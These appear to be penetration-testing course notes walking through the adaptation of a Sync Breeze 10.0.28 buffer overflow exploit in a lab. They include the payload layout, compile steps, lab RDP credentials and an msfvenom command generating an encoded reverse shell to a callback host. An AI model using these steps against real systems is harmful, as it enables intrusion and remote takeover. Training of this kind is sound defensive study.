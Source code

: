 
## 13.1 Memory Corruption Exploit Walkthrough

##### Notes
- Example exploit is Syncbreeeze 10.0.28 buffer overflow
- Vulnerability present in sending buffer overflow coniditon in HTTP POST request

```
//Core Exploit functionality 
offset    = "A" * 780 
JMP_ESP   =  "\x83\x0c\x09\x10"
shellcode = "\x90"*16 + msf_shellcode
exploit   = offset + JMP_ESP + shellcode
```

##### Steps
1. Find relevant exploit in Searchsploit
2. Mirror exploit to allow editing 
3. Inspect function headers and import to determine necessary OS compilier 
4. Compile/cross-compile exploit 
	1. Kali cross compiler = mingw-w64
	2. if compilier fails, probably need to import modules (use google)
5. Spin up service in Offsec testing range 
6. Open service in debugger, set necessary breakpoints, and troubleshoot exploit2
7. Make necessary changes
	1. IP, Port, etc
	2. NOP sled length
	3. Shellcode 
8. Recompile and run

###### Code

```
1. searchsploit "Sync Breeze Enterprise 10.0.28"

2. searchsploit -m <exploit number>

3. //Open exploit and inspect #include headers

4.1 sudo apt install mingw-w64

4.2 i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

5. rdesktop 192.168.129.10 -u offsec -p lab -g 80%+150+100

6. //go into services, start syncrbreeze, attach to debugger (file -> attach)

7.1 //inspect uncompiled code

7.2 //inspect debugger and look at ESP return address (often just need to change the buffer size by 1 or 2 bytes)

7.3 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"

```


## 13.2 Fixing Web Exploits